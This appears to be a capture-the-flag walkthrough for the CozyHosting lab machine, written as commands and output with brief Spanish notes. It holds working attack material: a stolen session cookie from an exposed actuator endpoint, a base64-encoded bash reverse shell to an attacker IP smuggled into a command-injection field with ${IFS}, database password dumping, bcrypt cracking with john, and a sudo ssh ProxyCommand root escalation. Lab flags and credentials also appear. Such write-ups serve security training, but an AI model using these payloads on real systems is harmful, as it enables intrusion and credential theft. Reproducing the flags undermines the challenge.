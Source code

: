 `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.230 -oG allPorts`

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 20:01 -03
Initiating SYN Stealth Scan at 20:01
Scanning 10.10.11.230 [65535 ports]
Discovered open port 80/tcp on 10.10.11.230
Discovered open port 8888/tcp on 10.10.11.230
Discovered open port 22/tcp on 10.10.11.230
Discovered open port 8000/tcp on 10.10.11.230
Completed SYN Stealth Scan at 20:01, 14.69s elapsed (65535 total ports)
Nmap scan report for 10.10.11.230
Host is up, received user-set (0.16s latency).
Scanned at 2023-12-09 20:01:42 -03 for 15s
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
80/tcp   open  http           syn-ack ttl 63
8000/tcp open  http-alt       syn-ack ttl 63
8888/tcp open  sun-answerbook syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.82 seconds
           Raw packets sent: 71989 (3.168MB) | Rcvd: 71791 (2.872MB)
```

```bash
nvim /etc/hosts
cozyhosting.htb
```

[http://cozyhosting.htb/](http://cozyhosting.htb/)

`nmap -p 22,80,8000,8888 -n -Pn -sCV --min-rate 5000 10.10.11.230 -oN targeted`

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 20:10 -03
Nmap scan report for 10.10.11.230
Host is up (0.16s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
8000/tcp open  http            SimpleHTTPServer 0.6 (Python 3.10.12)
|_http-title: Directory listing for /
|_http-server-header: SimpleHTTP/0.6 Python/3.10.12
8888/tcp open  sun-answerbook?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.85 seconds
```

`gobuster dir -u http://cozyhosting.htb -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20`

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/12/09 20:33:40 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431] 
/admin                (Status: 401) [Size: 97]   
/logout               (Status: 204) [Size: 0]    
/error                (Status: 500) [Size: 73]   
/http%3A%2F%2Fwww     (Status: 400) [Size: 435]  
/http%3A%2F%2Fyoutube (Status: 400) [Size: 435]  
/%C0                  (Status: 400) [Size: 435]  
Progress: 66949 / 220561 (30.35%)               ^C
[!] Keyboard interrupt detected, terminating.
                                                 
===============================================================
2023/12/09 20:42:46 Finished
===============================================================
```

`dirsearch -u http://cozyhosting.htb`

```bash
  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10903

Output File: /usr/lib/python3/dist-packages/dirsearch/reports/cozyhosting.htb/_23-12-09_21-29-22.txt

Error Log: /usr/lib/python3/dist-packages/dirsearch/logs/errors-23-12-09_21-29-22.log

Target: http://cozyhosting.htb/

[21:29:23] Starting: 
[21:29:35] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[21:29:39] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[21:29:40] 400 -  435B  - /a%5c.aspx
[21:29:41] 200 -  634B  - /actuator
[21:29:41] 200 -    5KB - /actuator/env
[21:29:41] 200 -   15B  - /actuator/health
[21:29:41] 200 -   10KB - /actuator/mappings
[21:29:42] 200 -   98B  - /actuator/sessions
[21:29:42] 200 -  124KB - /actuator/beans
[21:29:42] 401 -   97B  - /admin
[21:30:01] 200 -    0B  - /engine/classes/swfupload//swfupload.swf
[21:30:01] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf
[21:30:01] 500 -   73B  - /error
[21:30:02] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[21:30:02] 200 -    0B  - /extjs/resources//charts.swf
[21:30:05] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf
[21:30:06] 200 -   12KB - /index
[21:30:08] 200 -    4KB - /login
[21:30:08] 200 -    0B  - /login.wdm%2e
[21:30:09] 204 -    0B  - /logout
[21:30:19] 400 -  435B  - /servlet/%C0%AE%C0%AE%C0%AF

Task Completed
<dirsearch.dirsearch.Program object at 0x7f4c978d4b80>
```

[http://cozyhosting.htb/actuator/sessions](http://cozyhosting.htb/actuator/sessions)

```bash
AB7F8F8A0FC69FF5B97CB969B3A1298F	"UNAUTHORIZED"
251BBD1B1E1BBFFA5A4AA34F8DB4EC12	"UNAUTHORIZED"
65863FCFFD32AA46AE8234FCB285B739	"UNAUTHORIZED"
F99CF05847D0C79B554F3C58AAFC0D7A	"kanderson"
```

`JSESSIONID:"F99CF05847D0C79B554F3C58AAFC0D7A"`

[http://cozyhosting.htb/admin](http://cozyhosting.htb/admin)

`echo "bash -i >& /dev/tcp/<ip-atacante>/<puerto> 0>&1" | base64`
`echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDYvNzc3NyAwPiYxCg==" | base64 -d | bash`
`;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDYvNDE0MiAwPiYxCg=="|base64${IFS}-d|bash;`
`%3becho${IFS}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4yNDYvNDE0MiAwPiYxCg%3d%3d"|base64${IFS}-d|bash%3b`

Tratamiento de la TTY
```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

```bash
cd /app
ls -l
cloudhosting-0.0.1.jar

python3 -m http.server 80
```

```bash
wget http://<ip-victima>/<port>/cloudhosting-0.0.1.jar
```

[https://java-decompiler.github.io/](https://java-decompiler.github.io/)

`java -jar jd-gui-1.6.6.jar`

application.properties

```java
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

scheduled/FakeUser.class
```java
username -> kanderson
password -> MRdEQuv6~6P9
```

`psql "postgresql://postgres:Vg&nvzAQ7XxR@127.0.0.1:5432/cozyhosting"`

```bash
\l
\c cozyhosting
\dt
\d users
SELECT * FROM users;

   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt admin

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
1g 0:00:00:12 DONE (2023-12-13 09:22) 0.07710g/s 216.4p/s 216.4c/s 216.4C/s hellomoto..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```bash
su josh
manchesterunited
```

```bash
cd /home/jose
cat user.txt
```

> [!IMPORTANT]
> User flag: c07db06d197bee1a21bfdad6494b6519

```bash
sudo -l
manchesterunited

Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

[https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo)

`sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`

```bash
cd /root
cat root.txt
```

> [!IMPORTANT]
> Root flag: 6b8ccb9c26ebf11122a9e82977301258

